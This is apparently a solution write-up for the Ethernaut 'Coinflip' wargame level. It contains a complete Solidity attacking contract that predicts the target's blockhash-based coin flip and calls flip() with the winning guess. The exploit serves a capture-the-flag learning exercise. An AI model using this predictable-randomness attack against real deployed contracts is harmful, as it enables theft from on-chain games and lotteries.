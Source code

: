 # [Coinflip](https://ethernaut.openzeppelin.com/level/0x4dF32584890A0026e56f7535d0f2C6486753624f)

In this attack, we will guess the supposed "random" flips by calling the attack from our contracts. The target contract is programmed to flip a coin on each block, so each guess we make must be on different blocks.

Here is our attacking contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol";

// interface for target
interface CoinFlip {
  function flip(bool _guess) external returns (bool);
}

contract Attacker {
  CoinFlip coinflipTarget;
  using SafeMath for uint256; 

  constructor(address _target) {
    coinflipTarget = CoinFlip(_target);
  }

  function psychicFlip() public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(57896044618658097711785492504343953926634992332820282019728792003956564819968);
    bool side = coinFlip == 1 ? true : false;
    
    bool result = coinflipTarget.flip(side);
    require(result, "Could not guess, abort mission.");
  }
}
```
